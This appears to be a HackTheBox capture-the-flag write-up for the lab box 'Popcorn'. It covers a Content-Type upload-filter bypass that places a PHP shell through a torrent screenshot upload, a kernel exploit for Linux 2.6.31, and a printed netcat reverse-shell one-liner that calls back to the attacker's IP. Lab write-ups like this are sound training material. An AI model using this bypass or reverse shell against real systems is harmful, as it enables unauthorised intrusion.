# Popcorn — HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Popcorn (HackTheBox)
**Author:** dsec
**Date:** 2024-12-23

---

## TL;DR

### Torrent hosting site allowed file upload. Bypassed upload filter by changing Content-Type to `image/png` when uploading a PHP shell as a "screenshot." Kernel exploit (Linux 2.6.31) for root.
---
## Target info

- Host: `popcorn.htb`
- Kernel: `Linux 2.6.31-14-generic-pae`
---
## Enumeration



Added `popcorn` to `/etc/hosts`.





```bash
feroxbuster -u http://popcorn.htb
```



Found `/torrent/` -- a torrent hosting application.

---
## Foothold

Created an account, logged in, uploaded a `.torrent` file (only format accepted). Tried editing filename extension and content-type of a PHP shell directly -- no luck. Upload filters are typically based on file extension, Content-Type header, or magic bytes.

After uploading a `.torrent`, clicked browse:


Clicked on the torrent:



Edit this torrent -- allows uploading a "screenshot":



Used Burp to change Content-Type to `image/png` while uploading a PHP shell. Extension change alone didn't work, but Content-Type bypass did.

The `/torrent/upload` directory showed the PHP file with a hashed name:



Triggered the shell:



```bash
nc -c sh 10.10.14.172 9001
```



Grabbed `user.txt` from `/home/george`.

---
## Privesc





Used a kernel exploit for the old Linux version (2.6.31):



Could have also used Dirty COW given the kernel version.

---
## Lessons & takeaways

- Upload filters based only on Content-Type are trivially bypassed with Burp
- When direct upload is blocked, look for secondary upload functions (screenshots, avatars, etc.)
- Very old kernels (2.6.x) are almost always vulnerable to public kernel exploits
---
